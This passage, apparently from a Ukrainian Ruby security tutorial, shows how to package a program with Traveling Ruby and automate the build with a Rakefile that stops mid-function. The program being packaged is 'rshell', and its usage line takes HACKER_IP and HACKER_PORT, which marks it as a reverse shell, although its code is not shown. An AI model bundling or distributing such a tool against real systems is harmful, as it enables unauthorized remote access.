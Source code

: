 Вітаємо, ви створили нову програми використовуючи Traveling Ruby!

Тепер Лінукс користувач тепер може використовувати вашу програму ось так:

1. Користувач завантажує файл rshell-1.0.0-linux-x86.tar.gz.
2. Розпаковує його.
3. Та запускає:

```
/path-to/rshell-1.0.0-linux-x86/rshell
# => ruby rshell.rb.rb [HACKER_IP  HACKER_PORT]

```

##### Автоматизація процесу
Робити всі ці кроки один за одним та ще й кіька разів це, як мінімум, не зручно, але ви можете автоматизувати цей процес, використовуючи, наприклад Rake. Ось так може виглядати ваш Rakefile:


```ruby
PACKAGE_NAME = "rshell"
VERSION = "1.0.0"
TRAVELING_RUBY_VERSION = "20150210-2.1.5"

desc "Запаковуємо програму"
task :package => ['package:linux:x86', 'package:linux:x86_64', 'package:osx']

namespace :package do
  namespace :linux do
    desc "Запаковуємо для Linux x86"
    task :x86 => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86.tar.gz" do
      create_package("linux-x86")
    end

    desc "Запаковуємо для Linux x86_64"
    task :x86_64 => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86_64.tar.gz" do
      create_package("linux-x86_64")
    end
  end

  desc "Запаковуємо для OS X"
  task :osx => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-osx.tar.gz" do
    create_package("osx")
  end
end

file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86.tar.gz" do
  download_runtime("linux-x86")
end

file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86_64.tar.gz" do
  download_runtime("linux-x86_64")
end

file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-osx.tar.gz" do
  download_runtime("osx")
end

def create_package(target)
  package_dir = "#{PACKAGE_NAME}-#{VERSION}-#{target}"
  sh "rm -rf #{package_dir}"
  sh "mkdir -p #{package_dir}/lib/app"
  sh "cp rshell.rb #{package_dir}/lib/app/"
  sh "mkdir #{package_dir}/lib/ruby"
  sh "tar -xzf packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-#{target}.tar.gz -C #{package_dir}/lib/ruby"
  sh "cp packaging/wrapper.sh #{package_dir}/rshell"
```

[^1]: Traveling-ruby: [Офіційний сайт](http://phusion.github.io/traveling-ruby/)
[^2]: mruby CLI: [Офіційний сайт](https://github.com/hone/mruby-cli)
[^3]: RubyEncoder: [Офіційний сайт](http://rubyencoder.com)
